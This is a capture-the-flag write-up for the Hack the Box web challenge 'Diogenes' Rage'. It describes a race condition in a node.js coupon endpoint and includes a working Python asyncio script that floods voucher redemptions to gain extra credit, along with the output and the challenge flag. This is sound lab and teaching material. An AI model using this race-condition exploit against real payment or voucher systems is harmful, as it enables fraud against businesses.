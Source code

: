 # Writeup "Diogenes' Rage"

## Quick Info

<table>
   <tr><td><b> site       </b></td><td> Hack the Box                                                     </td></tr>
   <tr><td><b> url        </b></td><td> https://app.hackthebox.com/challenges/diogenes-rage              </td></tr>
   <tr><td><b> discussion </b></td><td> https://forum.hackthebox.com/t/official-diogenes-rage-discussion </td></tr>
   <tr><td><b> type       </b></td><td> challenge/web                                                    </td></tr>
   <tr><td><b> difficulty </b></td><td> easy                                                             </td></tr>
   <tr><td><b> startdate  </b></td><td> 2022-08-28                                                       </td></tr>
   <tr><td><b> enddate    </b></td><td> 2022-09-01                                                       </td></tr>
</table>

## Description

> Having missed the flight as you walk down the street, a wild vending machine appears in your way. You check your pocket and there it is, yet another half torn voucher coupon to feed to the consumerism. You start wondering why should you buy things that you don't like with the money you don't have for the people you don't like. You're Jack's raging bile duct.

## Solution

The application to be analyzed contains a _JavaScript_ frontend and a _node.js_ backend. Furthermore, a _SQLite_ database is used. The frontend displays a vending machine containing nine different products. Additionally, the user has one coupon with the code `HTB_100` which is worth 1 credit. All products cost less than 1 credit except the product at position `C8`, which costs 13.37 credits. In the source code we can see that the frontend will output the flag if the user buys product `C8`. We therefore have to find a way to get a sufficient number of credits.

<p align="center">
   <img src="includes/diogenes-rage-01.png" />
</p>

It seems like there are no injection vulnerabilities and we cannot discover any other way to get around the system. So we read through the official discussion page. The comments there hint at exploiting a racing condition. By sending many requests at once, we are able to redeem the same voucher several times before it is deactivated in the database. This is possible because the JS function in `index.js` which handles the request has the `async` keyword.

A web search yielded a writeup of this challenge[^1] and a page explaining racing contitions in node.js[^2]. Based on these resources, we can start to create or own solution. The key is to send as many voucher redemption requests as quickly as possible. This can be done in several different ways and after a web search we decide on using the library `asyncio`[^3][^4] (also, the writeups mentioned above use the library `multiprocessing` and we want to develop our own solution).

After a lot of trial and error, we managed to develop the following solution:

``` python
import httpx
import asyncio
import functools

challenge_url = "http://206.189.117.48:30502"
coupon_endpoint = "/api/coupons/apply"
purchase_endpoint = "/api/purchase"
purchase_data = {"item": "C8"}
coupon_data = {"coupon_code": "HTB_100"}

async def buyProduct(cookies=None):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=purchase_endpoint, data=purchase_data)
      print("getnew: ", response.text)
      return response.cookies

async def redeemCoupon(cookies):
   async with httpx.AsyncClient(base_url=challenge_url, cookies=cookies) as client:
      response = await client.post(url=coupon_endpoint, data=coupon_data)
      if response.status_code == 200:
         return 1
      else:
         return 0

async def redeemManyCoupons(cookies):
   tasks = []
   for i in range(20):
      tasks.append(asyncio.create_task(redeemCoupon(cookies)))

   results = await asyncio.gather(*tasks)
   return functools.reduce(lambda a, b: a+b, results)

def main():
   for i in range(100):
      cookies = asyncio.run(buyProduct())
      result = asyncio.run(redeemManyCoupons(cookies))
      if result >= 14:
         asyncio.run(buyProduct(cookies))
         exit()

if __name__ == '__main__':
   main()
```

This results in the following console output:

``` bash
$ python3 exploit.py
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"message":"Insufficient balance!"}
getnew:  {"flag":"HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}","message":"Thank you for your order! $6.63 coupon credits left!"}
```

Therefore, the flag is:

```
HTB{r4c3_w3b_d3f34t_c0nsum3r1sm}
```

### Sources

[^1]: https://infosecwriteups.com/this-is-why-you-should-always-check-for-race-conditions-even-in-javascript-410b6021ad1a
[^2]: https://stackoverflow.com/questions/21438207/can-node-js-code-result-in-race-conditions
[^3]: https://realpython.com/async-io-python
[^4]: https://stackoverflow.com/questions/27435284/multiprocessing-vs-multithreading-vs-asyncio-in-python-3
